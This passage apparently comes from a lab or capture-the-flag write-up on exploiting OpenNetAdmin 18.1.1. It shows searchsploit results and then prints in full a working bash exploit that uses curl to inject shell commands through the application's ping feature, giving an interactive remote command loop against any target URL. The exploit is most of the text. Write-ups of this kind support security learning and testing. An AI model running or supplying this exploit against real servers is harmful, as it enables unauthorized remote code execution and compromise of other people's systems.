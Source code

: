 ### searchsploit
So let's try to find something vulnerable.

```bash
kali@kali:~$ searchsploit opennetadmin 
----------------------------------------------------------------- -------------------------------
 Exploit Title                                                   |  Path
                                                                 | (/usr/share/exploitdb/)
----------------------------------------------------------------- -------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                    | exploits/php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)     | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                      | exploits/php/webapps/47691.sh
----------------------------------------------------------------- -------------------------------

kali@kali:~$ searchsploit -m 47691
  Exploit: OpenNetAdmin 18.1.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47691
     Path: /usr/share/exploitdb/exploits/php/webapps/47691.sh
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/47691.sh
```
Version 18.1.1 is vulnerable to remote code execution.

## exploitation

### Remote Code Execution
```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
